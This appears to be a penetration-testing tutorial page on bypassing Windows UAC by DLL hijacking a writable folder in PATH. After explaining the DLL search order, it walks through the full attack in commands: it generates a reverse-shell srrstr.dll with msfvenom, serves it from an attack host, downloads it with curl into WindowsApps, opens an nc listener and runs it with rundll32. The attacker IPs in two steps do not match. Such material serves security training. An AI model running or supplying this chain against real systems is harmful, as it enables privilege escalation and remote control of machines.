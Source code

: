 When attempting to locate a DLL, Windows will use the following search order.

1. The directory from which the application loaded.
2. The system directory `C:\Windows\System32` for 64-bit systems.
3. The 16-bit system directory `C:\Windows\System` (not supported on 64-bit systems)
4. The Windows directory.
5. Any directories that are listed in the PATH environment variable.


### Reviewing Path Variable

```powershell
cmd /c echo %PATH%
```

This reveals the default folders below.

If we see a folder within the user's profile and writable by the user (in the example, the `WindowsApps` folder), we can potentially bypass UAC in this by using DLL hijacking by placing a malicious `srrstr.dll` DLL to `WindowsApps` folder, which will be loaded in an elevated context.

### Generating Malicious srrstr.dll DLL

```shell-session
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll
```

### Starting Python HTTP Server on Attack Host

```shell-session
sudo python3 -m http.server 8080
```


### Downloading DLL Target

Download the malicious DLL to the target system.

```powershell
curl http://10.10.14.158:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"
```

Note that we will be using the path of the writable folder that is included within the PATH variable.

### Starting nc Listener on Attack Host

```shell-session
nc -lvnp 8443
```

### Testing Connection

We can run the DLL using rundll32.exe to get a reverse shell connection.

```cmd-session
rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```
